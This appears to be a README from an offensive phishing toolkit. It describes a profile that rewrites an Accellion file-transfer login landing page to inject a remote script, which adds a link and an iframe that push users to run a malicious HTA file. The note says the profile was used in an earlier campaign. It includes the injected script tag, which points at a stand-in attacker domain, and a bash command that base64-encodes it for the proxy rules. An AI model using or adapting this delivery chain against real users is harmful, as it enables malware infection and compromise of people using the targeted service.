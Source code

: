 # Advanced HTA File Delivery Notes

This is an advanced profile that uses JavaScript to rewrite the Accellion interface and inject a download link into the files table. It was used to deliver an HTA file in the original campaign, which is why references to HTA files are present. The JavaScript and HTML files will need patching in order to use this. Also, I had credentials for a server at one point so the configuration files _should_ be able detect successful authentication and redirect accordingly.

- Profile updates the post-authenticated landing page
- Injects a script tag that imports a remote JavaScript file
- JavaScript file rewrites application such that a download link for an HTA file is created

## JavaScript File (`innocuous.js`)

- see innocuous.js and updatevalues where necessary
- search for `TODO` tags within the file for key values

## HTML File (`if.html`)

- contains html content to inject an iframe that assists the user with executing the hta file
- this iframe is written into html by `innocuous.js`

## JavaScript Injection

- Update the following string with the appropriate values
- The referenced file will be imported into the DOM by injecting the tag into the body of each request
- See the `rules` element of the configuration file
- *_must be base64 encoded before being added to rules_*
- Bash command for quick encoding: `base64 -w0 <(echo -n '<script src="https://www.yourdomain.com/javascriptfilehere.js"></script></body>')`

```html
<script src="https://www.yourdomain.com/javascriptfilehere.js"></script></body>
```
